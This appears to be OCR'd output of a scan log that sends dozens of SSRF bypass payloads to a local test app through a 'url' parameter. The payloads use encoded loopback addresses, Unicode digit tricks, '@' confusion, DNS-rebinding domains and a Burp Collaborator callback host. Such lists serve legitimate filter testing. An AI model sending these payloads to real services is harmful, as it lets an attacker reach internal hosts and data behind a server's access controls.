 - Testing: `http://localhost:4200/?url=0x7f000001%2F`
- Testing: `http://localhost:4200/?url=0xc0a80014%2F`
- Testing: `http://localhost:4200/?url=0x7f.0x00.0x00.0x01`
- Testing: `http://localhost:4200/?url=0x0000007f.0x00000000.0x00000000.0x00000001`
- Testing: `http://localhost:4200/?url=127.000000000000.1`
- Testing: `http://localhost:4200/?url=localhost%3A%2B11211aaa`
- Testing: `http://localhost:4200/?url=localhost%3A00011211aaaa`
- Testing: `http://localhost:4200/?url=0%2F`
- Testing: `http://localhost:4200/?url=127.1`
- Testing: `http://localhost:4200/?url=127.0.1`
- Testing: `http://localhost:4200/?url=localtest.me`
- Testing: `http://localhost:4200/?url=customer1.app.localhost.my.company.127.0.0.1.nip.io`
- Testing: `http://localhost:4200/?url=mail.ebc.apple.com`
- Testing: `http://localhost:4200/?url=127.0.0.1.nip.io`
- Testing: `http://localhost:4200/?url=www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us`
- Testing: `http://localhost:4200/?url=customer1.app.localhost.my.company.127.0.0.1.nip.io`
- Testing: `http://localhost:4200/?url=bugbounty.dod.network`
- Testing: `http://localhost:4200/?url=1ynrnhl.xip.io`
- Testing: `http://localhost:4200/?url=spoofed.burpcollaborator.net`
- Testing: `http://localhost:4200/?url=customer1.app.localhost.my.company.127.0.0.1.nip.io`
- Testing: `http://localhost:4200/?url=spoofed.burpcollaborator.net`
- Testing: `http://localhost:4200/?url=127.1.1.1%3A80%5C%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/?url=127.1.1.1%3A80%5C%40%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/?url=127.1.1.1%3A80%3A%5C%40%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/?url=127.1.1.1%3A80%23%5C%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/?url=127.0.1.3`
- Testing: `http://localhost:4200/?url=0`
- Testing: `http://localhost:4200/?url=127.1`
- Testing: `http://localhost:4200/?url=127.0.1`
- Testing: `http://localhost:4200/?url=localhost`
- Testing: `http://localhost:4200/?url=1.0.0.127.in-addr.arpa`
- Testing: `http://localhost:4200/?url=01111111000000000000000000000001`
- Testing: `http://localhost:4200/?url=0x7f.0x0.0x0.0x1`
- Testing: `http://localhost:4200/?url=0177.0.0.01`
- Testing: `http://localhost:4200/?url=7F000001`
- Testing: `http://localhost:4200/?url=2130706433`
- Testing: `http://localhost:4200/?url=6425673729`
- Testing: `http://localhost:4200/?url=127001`
- Testing: `http://localhost:4200/?url=127_0._0_1`
- Testing: `http://localhost:4200/?url=0000%3A%3A1`
- Testing: `http://localhost:4200/?url=0000%3A%3A1%3A80`
- Testing: `http://localhost:4200/?url=%3A%3Affff%3A7f00%3A0001`
- Testing: `http://localhost:4200/?url=0000%3A0000%3A0000%3A0000%3A0000%3Affff%3A7f00%3A0001`
- Testing: `http://localhost:4200/?url=localtest.me`
- Testing: `http://localhost:4200/?url=bugbounty.dod.network`
- Testing: `http://localhost:4200/?url=127.127.127.127`
- Testing: `http://localhost:4200/?url=0177.0.0.1`
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%3A80`
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%E2%93%95%E2%93%94%E2%93%90%E2%91%A8%E2%93%95%E2%93%94%3A80`
- Testing: `http://localhost:4200/?url=%E2%91%A1%E2%91%A7%E2%91%A4%E2%91%A1%E2%93%AA%E2%91%A2%E2%91%A8%E2%91%A0%E2%91%A5%E2%91%A5%3A80`
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%E3%80%82%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%E3%80%82%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%E3%80%82%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%3A80`
- Testing: `http://localhost:4200/?url=whitelisted%40127.0.0.1`
- Testing: `http://localhost:4200/?url=0x7f000001`
- Testing: `http://localhost:4200/?url=017700000001`
- Testing: `http://localhost:4200/?url=0177.00.00.01`
- Testing: `http://localhost:4200/?url=0000.0000.0000.0000`
- Testing: `http://localhost:4200/?url=0177.0000.0000.0001`